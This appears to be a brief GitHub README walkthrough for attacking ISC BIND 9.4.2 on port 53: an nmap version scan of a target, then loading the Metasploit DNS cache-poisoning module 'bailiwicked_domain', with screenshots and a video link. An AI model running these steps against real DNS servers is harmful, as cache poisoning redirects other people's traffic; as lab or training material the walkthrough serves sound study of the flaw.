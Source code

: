 # Port-53-domain-ISC-BIND-9.4.2
1.nmap -sV (target ip)
![image](https://github.com/thanawut2903/Port-53-domain-ISC-BIND-9.4.2/assets/159118913/a884287b-d9c3-4bc1-86a1-fdc5b2aeecbf)
2.msfconsole

3.msf 6 > search bailiwicked_domain

![image](https://github.com/thanawut2903/Port-53-domain-ISC-BIND-9.4.2/assets/159118913/4d97949d-674b-4098-b6dc-2c3856266762)
4.msf 6 > use auxiliary/spoof/dns/bailiwicked_domain

![image](https://github.com/thanawut2903/Port-53-domain-ISC-BIND-9.4.2/assets/159118913/1a086e29-9adc-42bc-b1db-7d4bde73d5a0)

Referance form : https://www.youtube.com/watch?v=T6miFkd6z_4

